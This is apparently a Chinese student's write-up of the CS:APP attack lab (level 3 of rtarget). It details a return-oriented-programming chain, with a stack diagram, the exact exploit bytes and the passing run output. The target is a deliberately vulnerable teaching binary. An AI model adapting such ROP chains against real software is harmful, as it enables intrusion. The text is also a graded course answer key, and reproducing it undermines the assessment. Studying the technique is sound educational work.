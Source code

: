 用ROP对touch3做攻击，所需要的gatget在start\_farm到end\_farm之间，所以先把能找到的gatget都翻译出来，到时候要用的时候直接可以找到。这个的难点就是计算字符串参数的地址，需要用到已经提供的lea指令，``lea (rdi, rsi, 1), rax`` . 我这边画出最终攻击后的栈的内容，可以很好理解了。
```txt
            64bit          0
            +--------------+
            | cookie       |  = "59b997fa" => 35 39 62 39 39 37 66 61
            +--------------+
            |   0x4018fa   |  --> touch3的入口地址
            +--------------+
            |   0x4019c5   |  --> mov rax, rdi ｜ ret  # 保存到第一个参数
            +--------------+
            |   0x4019d6   |   --> lea (rdi, rsi, 1), rax  # 计算string的真实地址
            +--------------+
            |   0x401a27   |   --> mov ecx, esi  | ret
            +--------------+
            |  0x401a34    |    --> mov edx, ecx  | ret
            +--------------+
            |   0x401a42   |  --> mov eax, edx  | ret
            +--------------+ 0 byte
            |   0x48       |   --> string的偏移量
            +--------------+ -8
            |   0x4019ab   |   --> popq rax (string在栈上的偏移量)  | ret
            +--------------+ -16
            |  0x4019c5    |    --> movq rax, rdi   | ret
            +--------------+ -24
  getbuf -> |  0x401aad    |    --> movq rsp, rax  | ret  # 以当前的rsp作为基址
ret address +--------------+ -32
            |              |
            |              |
            |              |
            +--------------+ <- buffer起始地址 -72
```
bytes文件的内容
```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ad 1a 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
42 1a 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
27 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
```
完成了攻击：
```sh
sugar@ubuntuServer:~/csappLab/attacklab$ ./hex2raw < bytes  > args.txt 
sugar@ubuntuServer:~/csappLab/attacklab$ ./rtarget -q -i args.txt 
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:
```